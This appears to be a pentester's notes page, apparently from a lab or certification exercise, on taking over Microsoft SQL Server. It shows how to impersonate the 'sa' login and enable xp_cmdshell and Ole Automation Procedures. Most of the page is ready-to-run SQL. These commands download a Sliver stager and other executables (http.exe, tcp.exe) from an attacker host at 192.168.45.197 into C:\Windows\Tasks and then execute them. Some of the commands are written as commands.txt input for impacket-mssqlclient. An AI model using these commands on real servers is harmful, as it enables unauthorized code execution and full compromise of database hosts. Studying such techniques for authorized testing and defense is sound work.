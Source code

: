 - write a file
```sql
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell',@myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c \"echo Test > C:\\Tools\\file.txt\"';
```

- upload and execute (sliver stager)
```sql
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'powershell -Command "Invoke-WebRequest -Uri http://192.168.45.197:8000/http.exe -Outfile c:\windows\tasks\http.exe"'
EXEC xp_cmdshell 'c:\windows\tasks\http.exe'
```

- alt method (Ole Automation is failing for me)
- used `impacket-mssqlclient`
```sql
EXECUTE AS LOGIN = 'sa';
USE msdb;
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
Declare @myshell int; exec sp_oacreate 'wscript.shell', @myshell output; exec sp_oamethod @myshell, 'run', null ,'powershell.exe -Command "Invoke-WebRequest -Uri http://192.168.45.197:8000/tcp.exe -OutFile C:\Windows\Tasks\tcp.exe; Start-Process -FilePath C:\Windows\Tasks\tcp.exe"';

```

*Note:* maybe try `$"DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, '{Config.command}';"`.I'd need to rewrite my code or create a one off.
- This commands.txt worked to download tcp.exe
```sql
username
password
dc01.corp1.com
master
EXECUTE AS LOGIN = 'sa'
USE msdb
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
Declare @myshell int
exec sp_oacreate 'wscript.shell', @myshell output
exec sp_oamethod @myshell, 'run', null ,'powershell.exe -Command Invoke-WebRequest -Uri http://192.168.45.197:8000/tcp.exe -OutFile C:\\Windows\\Tasks\\tcp.exe'
```

- This commands.txt worked to run tcp.exe
```sql
username
password
dc01.corp1.com
master
EXECUTE AS LOGIN = 'sa'
USE msdb
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
Declare @myshell int
exec sp_oacreate 'wscript.shell', @myshell output
exec sp_oamethod @myshell, 'run', null ,'powershell.exe -Command Start-Process -FilePath C:\\Windows\\Tasks\\tcp.exe'
```
